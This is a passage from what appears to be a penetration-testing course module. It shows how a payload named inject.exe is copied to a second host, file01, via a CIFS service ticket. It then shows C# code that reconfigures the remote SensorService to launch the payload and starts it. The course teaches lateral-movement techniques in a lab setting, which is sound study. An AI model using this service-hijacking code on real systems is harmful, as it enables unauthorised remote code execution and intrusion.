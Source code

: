We will name this application "Inject". Next, we'll compile it, upload it to web01, and subsequently use our CIFS access to copy it to file01.

The copy operation is shown in Listing 44.

```
PS C:\Windows\system32> copy C:\inetpub\wwwroot\upload\inject.exe \\file01\c$
copy C:\inetpub\wwwroot\upload\inject.exe \\file01\c$

PS C:\Windows\system32> ls \\file01\c$
ls \\file01\c$

    Directory: \\file01\c$

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                             
d-----        6/24/2020   1:07 AM                PerfLogs                                                         
d-r---        6/24/2020   7:24 AM                Program Files                                                    
d-----        6/24/2020   7:21 AM                Program Files (x86)                                              
d-r---        6/24/2020   1:48 AM                Users                                                            
d-----        6/24/2020   1:22 AM                Windows                                                          
-a----        6/26/2020   2:41 AM           6144 inject.exe 
```

> Listing 44 - The TGS for CIFS service is used to allow a copy operation to file01

With the file in place, we can now move to the second application we used in a previous module with this attack. The code in this application modifies the SensorService in order to start inject.exe when the service is started.

The target computer and service name along with the executable to launch must be specified in the code as shown in Listing 45 where the DllImport statements have been omitted.

```
String target = "file01";
IntPtr SCMHandle = OpenSCManager(target, null, 0xF003F);

string ServiceName = "SensorService";
IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);

string payload = "C:\\inject.exe";
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);

bResult = StartService(schService, 0, null);
```

> Listing 45 - Code to interact with the service manager
